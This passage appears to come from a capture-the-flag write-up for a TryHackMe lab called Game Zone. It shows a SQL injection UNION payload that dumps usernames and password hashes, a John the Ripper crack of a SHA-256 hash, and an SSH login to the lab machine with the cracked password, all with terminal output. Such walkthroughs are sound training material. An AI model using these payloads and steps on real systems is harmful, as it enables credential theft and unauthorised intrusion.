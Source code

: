 
### Get data from table

```bash
'UNION SELECT ALL NULL,NULL, group_concat(username,":",pwd) from db.users -- -
```

![](/assets/obsidian/fdc7f4d028a52e920ad66cd17e28d690.png)


## Cracking a password with JohnTheRipper
---

```bash
┌──(kali㉿kali)-[~/thm/Game-Zone]
└─$ hash-identifier ab5db915fc9cea6c78df88106c6500c57f2b52901ca6c0c6218f04122c3efd14

Possible Hashs:
[+] SHA-256
[+] Haval-256
```

```bash
┌──(kali㉿kali)-[~/thm/Game-Zone]
└─$ john user.hash --wordlist=/opt/wordlists/rockyou.txt --format=Raw-SHA256
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-SHA256 [SHA256 128/128 SSE2 4x])
Warning: poor OpenMP scalability for this hash type, consider --fork=5
Will run 5 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
videogamer124    (?)
1g 0:00:00:00 DONE (2023-06-18 02:25) 5.000g/s 14540Kp/s 14540Kc/s 14540KC/s vivula..vero24jm
Use the "--show --format=Raw-SHA256" options to display all of the cracked passwords reliably
Session completed.
```

```bash
agent47@gamezone:~$ exit
logout
Connection to 10.10.233.188 closed.

┌──(kali㉿kali)-[~/thm/Game-Zone]
└─$ sshpass -p videogamer124 ssh -o "StrictHostKeyChecking no" agent47@10.10.233.188
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.4.0-159-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

109 packages can be updated.
68 updates are security updates.


Last login: Sun Jun 18 01:37:40 2023 from 10.11.19.145
agent47@gamezone:~$ id
uid=1000(agent47) gid=1000(agent47) groups=1000(agent47),4(adm),24(cdrom),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare)
```